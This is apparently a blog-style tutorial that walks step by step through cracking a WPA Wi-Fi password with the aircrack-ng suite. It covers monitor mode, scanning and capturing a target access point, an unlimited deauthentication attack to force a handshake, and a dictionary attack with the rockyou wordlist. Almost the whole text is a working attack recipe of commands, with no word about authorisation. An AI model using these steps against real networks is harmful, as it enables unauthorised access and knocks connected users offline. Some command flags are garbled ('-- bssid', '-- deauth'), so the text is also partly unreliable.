



Wireless Password Cracking
> sudo airmon-ng start wlan0mon
> sudo iwconfig

Now I‘ll start listening to all the WiFi network available around me.
> sudo airodump-ng wlan0mon
It will start scanning the available Wifi network. When you get the desired network you can stop scanning, as in my case it is Galaxy_M30s. Now I'll do a handshake with this device in another terminal window by this command.> sudo airodump-ng -c CH -- bssid device_bssid wlan0mon -w target
1. -c is the channel no. which will be listed in the CH column in the output of the previous terminal as in my case it is 11. 2. --bssid is the MAC address of the target AP, in my case it is 1A:XX:XX:XX:XX:A2. 3. wlan0mon is a wireless interface. 4. -w is the file in which our capture packets will be saved as in my case i declare a name target. So, all the capture data will save in target files.> sudo aireplay-ng -- deauth 0 -a <device_bssid> wlan0mon
1. --deauth is for deauth attack, 0 is for infinite no. of deauth packets to be sent. 2. -a for the MAC address of the target. 3. wlan0mon is wireless interface Once aireplay start sending deauth packets, after sometime you will get the WPA handshake in the previous terminal window

Now, once we got WPA handshake we have to break WEP/WPA
key by Aircrack-ng.
Aircrack-ng can recover the WEP/WPA key once enough
encrypted packets have been captured with airodump-ng. It uses
brute force, and dictionary attacks to break the WEP / WPA key.
> sudo aircrack-ng target-01.cap -w /usr/share/wordlists/rockyou.txt

Hit enter and it will start the cracking process.